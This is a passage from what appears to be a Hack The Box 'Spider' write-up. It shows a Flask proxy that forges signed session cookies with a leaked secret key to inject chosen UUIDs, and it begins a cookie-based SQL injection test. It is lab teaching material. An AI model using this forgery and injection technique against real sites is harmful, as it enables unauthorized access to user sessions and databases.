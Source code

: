#### Proxy

To interact with the site, I’ll build a simple Flask server that can proxy
requests for me. [This
post](https://stackoverflow.com/questions/42283778/generating-signed-session-
cookie-value-used-in-flask) shows how to get access to the Flask signing bits.
My server will listen for a request, and pull a uuid and a optional URL from
the GET parameters, and then craft a request with that UUID in the cookie:

    
    
    #!/usr/bin/env python3
    
    import requests
    from flask import Flask, request
    from flask.sessions import SecureCookieSessionInterface
    
    app = Flask(__name__)
    app.secret_key = "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942"
    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    
    
    @app.route('/')
    def main():
        uuid = request.args['uuid']
        if 'url' in request.args:
            url = request.args['url']
        else:
            url = 'http://spider.htb'
        cookie_data = {"uuid": uuid, "username": "", "cart_items": []}
        cookie = {"session": session_serializer.dumps(cookie_data)}
        resp = requests.get(url, cookies=cookie)
        return resp.text
    
    
    app.run()
    

On running it, a Flask server is listening on my box listening on TCP 5000:

    
    
    oxdf@parrot$ python flask_proxy.py 
     * Serving Flask app "flask_proxy" (lazy loading)
     * Environment: production
       WARNING: This is a development server. Do not use it in a production deployment.
       Use a production WSGI server instead.
     * Debug mode: off
     * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
    

I’ll verify the proxy works but trying my current UUID and it works (images
break, but page source is good):

![image-20210517114023850](https://0xdfimages.gitlab.io/img/image-20210517114023850.png)

#### SQLI POC

I’ll add a `'` to the end of my UUID, and the page crashes:
